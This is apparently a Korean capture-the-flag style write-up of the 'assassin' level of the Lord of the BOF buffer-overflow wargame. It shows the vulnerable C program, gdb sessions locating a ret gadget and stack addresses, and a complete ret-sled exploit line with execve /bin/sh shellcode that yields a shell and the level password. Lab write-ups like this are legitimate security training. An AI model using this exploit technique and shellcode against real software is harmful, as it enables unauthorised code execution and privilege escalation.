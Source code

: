 # assassin

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - assassin
        - no stack, no RTL
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
        char buffer[40];

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        if(argv[1][47] == '\xbf')
        {
                printf("stack retbayed you!\n");
                exit(0);
        }

        if(argv[1][47] == '\x40')
        {
                printf("library retbayed you, too!!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer+sfp hunter
        memset(buffer, 0, 44);
}
```

새로운 접근법을 공부할 수 있는 문제이다. 

ret sled라는 기법인데 ret자리에 다시 ret의 주소를 넣어 esp가 4증가한 상태에서 ret명령을 한 번 더 실행하므로 ret부분 뒤에 넣은 주소로 한 번 더 이동하게 된다. 따라서 &ret+ &shellcode+shellcode식으로 넣어주게 되면 ret이 두 번 호출되면서 shellcode의 주소로 이동해 shellcode를 실행시킬 수 있는 구조가 만들어진다. 

쉬운 내용이지만 모르면 접근할 수 없다. argv의 개수 제한이 없고 ret에 대한 제한이 있다면 접근하기 좋은 기법이니 기억하도록 하자. 

먼저, ret의 주소와 shellcode의 주소를 구해보도록 하자. 

```bash
[giant@localhost giant]$ ls
assassin  assassin.c
[giant@localhost giant]$ cp assassin bbbbbbbb
[giant@localhost giant]$ gdb -q bbbbbbbb
```

```assembly
(gdb) b*main
Breakpoint 1 at 0x8048470
(gdb) set disassembly-flavor intel
(gdb) disas main
...생략...
0x804850f <main+159>:   push   0
0x8048511 <main+161>:   lea    %eax,[%ebp-40]
0x8048514 <main+164>:   push   %eax
0x8048515 <main+165>:   call   0x8048398 <memset>
0x804851a <main+170>:   add    %esp,12
0x804851d <main+173>:   leave
0x804851e <main+174>:   ret
0x804851f <main+175>:   nop
```

ret의 주소는 0x804851e이다. 이제 입력값을 주고 실행시켜서 shellcode를 넣을 주소를 알아보자.

```assembly
(gdb) r `python -c 'print "c"*44+"\x1e\x85\x04\x08"+"d"*44'`
Starting program: /home/giant/bbbbbbbb `python -c 'print "c"*44+"\x1e\x85\x04\x08"+"d"*44'`

Breakpoint 1, 0x8048470 in main ()
(gdb) x/100x $esp
...
0xbffffbfc:     0x00000000      0x00000000      0x69000000      0x00363836
0xbffffc0c:     0x6d6f682f      0x69672f65      0x2f746e61      0x62626262
0xbffffc1c:     0x62626262      0x63636300      0x63636363      0x63636363
0xbffffc2c:     0x63636363      0x63636363      0x63636363      0x63636363
0xbffffc3c:     0x63636363      0x63636363      0x63636363      0x63636363
0xbffffc4c:     0x04851e63      0x64646408      0x64646464      0x64646464
0xbffffc5c:     0x64646464      0x64646464      0x64646464      0x64646464
0xbffffc6c:     0x64646464      0x64646464      0x64646464      0x64646464
```

d(64)가 시작하는 부분인 0xbffffc51이 shellcode의 시작 주소가 될 것이다.

```bash
[giant@localhost giant]$ ./assassin `python -c 'print "c"*44+"\x1e\x85\x04\x08"+"\x51\xfc\xff\xbf"+"\x90"*13+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"'`
ccccccccccccccccccccccccccccccccccccccccccccQ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                                                                 ̀1▒̀
bash$ whoami
assassin
bash$ my-pass
euid = 515
pushing me away
```

assassin의 password는 pushing me away이다.

